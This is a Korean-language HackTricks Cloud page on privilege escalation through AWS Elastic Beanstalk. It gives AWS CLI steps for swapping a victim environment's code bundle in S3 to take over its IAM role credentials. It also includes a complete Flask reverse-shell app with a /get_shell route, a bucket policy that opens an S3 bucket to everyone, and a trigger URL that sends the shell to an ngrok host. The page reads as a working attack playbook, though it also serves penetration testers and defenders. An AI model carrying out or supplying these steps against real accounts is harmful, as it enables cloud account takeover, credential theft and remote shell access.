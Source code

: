 # AWS - Elastic Beanstalk 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## Elastic Beanstalk

Elastic Beanstalk에 대한 **자세한 정보**는 다음에서 확인할 수 있습니다:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beanstalk에서 민감한 작업을 수행하려면 **다양한 서비스에서 많은 민감한 권한**이 필요합니다. 예를 들어 **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**에 부여된 권한을 확인할 수 있습니다.
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 쓰기 권한 및 기타 권한

**환경의 코드를 포함하는 S3 버킷에 쓰기 권한**과 애플리케이션을 **재구축**할 수 있는 권한( `elasticbeanstalk:RebuildEnvironment` 및 `S3`, `EC2`, `Cloudformation`과 관련된 몇 가지 권한이 필요함)이 있으면 **코드를 수정**하고 **앱을 재구축**할 수 있습니다. 그리고 다음에 앱에 액세스할 때 새로운 코드가 실행되어 공격자가 애플리케이션과 해당 IAM 역할 자격 증명을 침해할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, 그리고 더...

언급된 권한과 함께 **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** 그리고 **`elasticloadbalancing`** 권한은 처음부터 AWS Elastic Beanstalk 시나리오를 만들기 위해 필요합니다.

* AWS Elastic Beanstalk 애플리케이션 생성하기:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* AWS Elastic Beanstalk 환경을 생성합니다 ([**지원되는 플랫폼**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

환경이 이미 생성되어 있고 **새로운 환경을 만들고 싶지 않은 경우**, 기존 환경을 **업데이트**할 수 있습니다.

* 애플리케이션 코드와 종속성을 ZIP 파일로 패키징하세요:
```python
zip -r MyApp.zip .
```
* S3 버킷에 ZIP 파일을 업로드하세요:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* AWS Elastic Beanstalk 애플리케이션 버전 생성:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* AWS Elastic Beanstalk 환경에 애플리케이션 버전을 배포하세요:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

먼저, **이전 단계**를 따라 **희생자**에서 실행하고자 하는 **코드**와 함께 **정품 Beanstalk 환경**을 생성해야 합니다. 아마도 다음 **2개 파일**을 포함한 간단한 **zip** 파일일 수 있습니다:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

당신이 **자신의 Beanstalk 환경을 실행**하고 있는 상태에서 rev shell을 가지고 있다면, 이제는 그것을 **피해자의** 환경으로 **이전**할 시간입니다. 이를 위해서는 Beanstalk S3 버킷의 **Bucket Policy를 업데이트**해야 합니다. 이렇게 하면 **피해자가 액세스**할 수 있게 됩니다 (이로 인해 버킷이 **모두에게 공개**됩니다):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

